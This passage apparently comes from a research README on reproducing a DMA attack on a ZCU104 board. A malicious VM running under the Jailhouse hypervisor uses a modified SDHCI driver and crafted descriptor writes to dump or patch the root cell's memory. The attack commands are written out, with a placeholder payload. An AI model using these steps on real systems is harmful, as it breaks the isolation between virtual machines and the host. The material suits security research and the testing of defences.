 ```bash


#Create a boot partition (fat32) on the USB and copy the system's device tree and the root cell's Linux image
cp $JH_WD/rootcell/linux/arch/arm64/boot/Image $USB_MNT/boot/
cp $JH_WD/jailhouse/configs/arm64/dts/root-boot.dtb $USB_MNT/boot/
```

## Launch the root cell, the hypervisor and the VMs

Plug the USB key to the board (ZCU104), boot the latter and run the following U-boot commmands:

```bash
#The root cell's rootfs is on partition /dev/sda1 of the USB. The following command must be adapted according to the partition on which the root cell's rootfs is stored.
setenv bootargs clk_ignore_unused console="ttyPS0,115200" mem=512M root="/dev/sda1" rw rootwait; 
usb start;
#The device and part number must be adapted to match the boot partition on the USB
load usb 0:2 0x200000 Image;
load usb 0:2 0x1e0000 root-boot.dtb;
booti 0x200000 - 0x1e0000;
```

**In the root cell, launch Jailhouse and the malicious VM:**

```
insmod /lib/modules/5.14.0-00002-gfeb158eb42ad/extra/driver/jailhouse.ko
PATH=$PATH:/usr/share/jailhouse/tools/
jailhouse enable /root.cell
#Copy pyjailhouse to python 3.12 packages location
cp -r /usr/local/lib/python3.10/dist-packages/* /usr/lib/python3.12/site-packages/
jailhouse cell linux /linux.cell /Image -d /linux.dtb -i /rootfs.cpio -c "console=ttyPS0,115200 " 
jailhouse cell list
```
## Attack steps in the VM

----

```bash
#Insert the modified SDHC driver
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci.ko
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci-pltfm.ko
insmod /lib/modules/6.6.40/kernel/drivers/mmc/host/sdhci-of-arasan.ko

#Create a file that contains the target memory region in the root cell's memory to be dumped/patched
#Ex: \x23\x00\x22\x11\xdd\xcc\xbb\xaa to patch 0x1122 bytes at address 0xaabbccdd)
echo -n -e '\x23\x00\x16\x10\x00\x00\x21\x00'  > target

#Create a file that contains your payload (for patching the root cell's)
echo -n -e INSERT_YOUR_PAYLOAD_1234 > payload

#Request a descriptor table (of a size of 512 pages in that case) and print the physical address of the descriptor table
echo -n -e '512'  > /sys/devices/platform/ff170000.mmc/request_desc_table

#Prepare a partition on the SD card for the attack. /dev/mmcblk0p2 must be adapted to your case
#The address field of the descriptor (i.e., \x00\x00\xb0\x54 in the command below) must be replaced with the address given by request_desc_table. In that case the address given was 0x54b00000

perl -e    '$count=1024; while ($count>0) {
      syswrite(STDOUT, "\x25\x00\x08\x00\x00\x00\xb0\x54",  8);
      $count--;
    }' > /dev/mmcblk0p2

```